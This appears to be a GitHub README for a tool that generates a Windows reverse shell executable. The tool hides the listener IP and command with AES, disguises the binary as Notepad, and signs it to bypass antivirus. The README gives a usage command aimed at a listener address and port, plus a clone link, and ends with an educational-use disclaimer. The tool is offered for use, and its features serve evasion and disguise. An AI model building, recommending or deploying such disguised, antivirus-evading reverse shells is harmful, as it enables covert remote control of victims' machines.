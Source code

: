 # 🛡️ AES Encrypted Payload Generator

This tool generates a Windows reverse shell payload with **AES-encrypted IP and command values**, compiles it with optional **Notepad disguise**, and supports automatic cleanup.
  
---
  
## ⚙️ Features

- 🔐 AES (ECB mode) encryption for sensitive data
- 🧩 Dynamic payload generation in C
- 🪟 Native Windows API usage (with manual `GetProcAddress` resolution)
- 🎭 Optional Notepad spoofing (icon + metadata)
- 🛠️ Easy cross-compilation via MinGW (Linux)
  
---
  
## 🚀 Usage

### Basic Example
```bash
python3 payload_gen.py --ip 192.168.1.100 --port 4444 --notepad
```
  
### Arguments
  
**--ip** : IP address of the reverse shell listener (required).  
**--port** : TCP port for the connection (default: 49557).  
**--cmd** : Command to execute (default: cmd.exe).  
**--notepad** : Mimic Notepad metadata and icon.  
**--keep** : Keep temporary files (.c, .rc, .res) after building.  
**--sign** : Uses sign_exe.py to sign the exe, improving AVs bypass.  
  
---
  
## Download
```bash
git clone https://github.com/WisePlace/Payload-Generator.git
```
  
---
  
## Disclaimer
  
**This project is provided strictly for educational and ethical security research purposes.  
Unauthorized use against third-party systems is illegal. You are solely responsible for how you use this code.**  
